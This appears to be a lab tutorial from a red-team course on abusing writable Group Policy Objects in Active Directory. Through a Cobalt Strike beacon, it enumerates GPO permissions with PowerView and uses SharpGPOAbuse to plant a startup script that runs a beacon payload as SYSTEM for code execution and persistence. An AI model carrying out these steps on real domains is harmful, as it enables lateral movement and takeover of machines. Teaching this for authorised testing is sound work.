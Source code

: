 Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with `Get-DomainGPO` and check the ACL of each one with `Get-DomainObjectAcl`.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
  

One result has been returned.  Let's resolve the GPO name and the SID of the principal.
```
beacon> powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

displayname    gpcfilesyspath                                                                              
-----------    --------------                                                                              
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers

  

This shows us that members of the "Developers" group can modify "Vulnerable GPO".

We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.

beacon> powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName

distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```
  

Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.
```
beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io

  

To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).

beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/07/2022 12:40:22   Machine
          dir     09/07/2022 12:40:22   User
 59b      fil     09/07/2022 12:40:22   GPT.INI
```
  

We can do that manually or use an automated tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it.

Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).
```
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "Vulnerable GPO" is: {5059FAC1-5E94-4361-95D3-3BB235A23928}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
 ```

  Note that you can find this `software` share using PowerView:  
  
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```
  
It can go in any remote location as long as it's accessible by the target computer(s)

  

Log into the console of Workstation 1 and run `gpupdate /force` from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/afd/f74/129/beacons.png)

  

SharpGPOAbuse has other functions such as adding an immediate scheduled task that you may experiment with.